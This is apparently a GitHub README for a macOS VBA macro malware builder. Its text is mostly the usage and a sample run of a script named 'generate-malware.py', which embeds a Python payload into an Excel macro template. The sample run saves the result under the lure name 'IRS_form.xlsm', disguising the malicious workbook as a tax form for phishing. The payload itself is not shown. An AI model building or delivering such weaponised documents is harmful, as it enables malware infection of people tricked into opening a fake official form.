 # MacOS_VBA_Macro
Example VBA Macro for MacOS Mojave 10.14

# Generate from the python script
```
malware $python generate-malware.py -h
Usage: generate-malware.py [options]

Options:
  -h, --help            show this help message and exit
  -p PAYLOAD_FILENAME, --payload=PAYLOAD_FILENAME
  -t TEMPLATE_FILENAME, --template=TEMPLATE_FILENAME
  -o OUTPUT_FILENAME, --output=OUTPUT_FILENAME
malware $python generate-malware.py -p ../python_payload.bin 
template-doc/Workbook1.xlsm
temp.0.352844482538/payload.tmp
Successful
Saved as temp.0.352844482538/IRS_form.xlsm
```

